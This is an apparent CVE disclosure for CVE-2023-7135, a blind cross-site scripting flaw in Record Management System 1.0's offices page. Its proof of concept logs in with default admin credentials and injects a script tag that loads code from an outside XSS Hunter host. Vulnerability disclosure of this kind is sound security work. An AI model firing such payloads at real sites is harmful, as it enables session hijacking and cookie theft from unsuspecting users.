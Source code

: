# CVE-2023-7135_Record_Management_System-Blind_Cross_Site_Scripting-1
+ **Exploit Title:** CVE-2023-7135_Record_Management_System-Blind_Cross_Site_Scripting-1
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/record-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/RECORD_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7135

## References: 
+ **CVE-2023-7135:** https://vuldb.com/?id.249138
+ https://www.cve.org/CVERecord?id=CVE-2023-7135
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7135
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7135

## Description:
Record Management System 1.0 allows Blind Cross-Site Scripting via parameter 'officename' in "/recordmanagement/main/offices.php". Record Management System is vulnerable to a blind cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the login panel: "http://localhost/recordmanagement/"
+ Login with `admin`:`admin`
+ Go to the Offices: "http://localhost/recordmanagement/main/offices.php"
+ Then go to the xsshunter app on https://xsshunter.trufflesecurity.com and login.
+ XSS PAYLOADS -> Copy Payload "Basic <script> Tag Payload"
+ Add Office and Name with payload `"><script src="https://js.rip/b23tmbxf49"></script>`
+ Save and then go to XSS PAYLOAD FIRES on the xsshunter.
+ Check Reports.

![3-1](https://github.com/h4md153v63n/CVEs/assets/5091265/1a7010d1-375b-4057-887c-f5b77d7b7fc8)
<br>
<br>
![3-2](https://github.com/h4md153v63n/CVEs/assets/5091265/8ef95f72-c0e4-4dfe-9888-019f74f761a2)
<br>
<br>
![3-3](https://github.com/h4md153v63n/CVEs/assets/5091265/b83ac262-e5b3-4767-931d-06c5baf08efe)
<br>
<br>
![3-4](https://github.com/h4md153v63n/CVEs/assets/5091265/92faa150-3a3c-47c1-a053-033cd70782b6)
<br>
<br>
![3-5](https://github.com/h4md153v63n/CVEs/assets/5091265/0546b16c-44bf-461a-afb0-b128ccde253c)
<br>
<br>
![3-6](https://github.com/h4md153v63n/CVEs/assets/5091265/5110ae7e-b43d-4a1a-a962-84f5c32d6999)
